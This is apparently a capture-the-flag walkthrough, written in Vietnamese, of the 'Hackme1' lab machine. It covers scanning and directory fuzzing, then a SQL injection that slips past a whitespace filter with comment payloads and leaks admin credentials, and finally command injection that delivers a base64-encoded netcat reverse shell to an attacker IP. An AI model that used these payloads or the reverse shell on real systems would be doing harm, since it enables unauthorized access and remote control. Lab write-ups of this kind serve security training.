

# Hackme1
***

### Network Scanning

Đầu tiên tìm địa chỉ ip mục tiêu

```sudo netdiscover -i eth0 -r 192.168.169.0/24```


**Target IP: 192.168.169.139**

Tiếp theo scan các dịch vụ và cổng đang mở

```sudo nmap -sV -O 192.168.169.139```


+ Port 22: SSH
+ Port 80: Apache httpd 2.4.34

### ENUMERATION

Discovery

```ffuf -w /usr/share/wordlists/dirb/common.txt -e .php,.zip,.txt -u http://192.168.169.139/FUZZ```


Thử truy cập vào port 80


Hiện thị một trang login và sign up


Thử đăng nhập, hiện giao diện cho phép tìm kiếm


Sau khi tìm kiếm thấy đầu vào bị lọc dấu khoảng trắng



Thử SQLi

```'/**/UNION/**/SELECT/**/null,null,null--/**/a```


Thử một dấu comment khác

```'/**/UNION/**/SELECT/**/null,null,null#/**/a```


Payload có hiệu quả tiếp theo tìm kiếm các bảng như lab [Hackme1](../Hackme1/README.md)

Tìm được tài khoản
```superadmin:Uncrackable```

Đăng nhập vào có 2 tính năng: upload file, search user


### Test tính năng up file
Thử upload 1 file test.php nhưng hiện thông báo chỉ cho phép up file ảnh


Chỉnh sửa extension up được nhưng không truy cập được


### Test tính năng search

Thử test với câu lệnh system


Câu lệnh được thực thi ở ```Last Name```

Tiến hành tải một reverse shell từ đây nhưng trong ```fistname-lastname``` bị strip khoảng trắng

Sau khi thử encode hay tab đều không được thì ta quyết định thử encode sang dạng base64 rồi decode lại để đạt được mục tiêu

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.169.137 5555 >/tmp/f```

Sau khi encode

```system(base64_decode("cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4xNjkuMTM3IDU1NTUgPi90bXAvZg=="))```


Tiếp theo giống [Hackme1](../Hackme1/README.md) để đạt được quyền root

## Complete!!!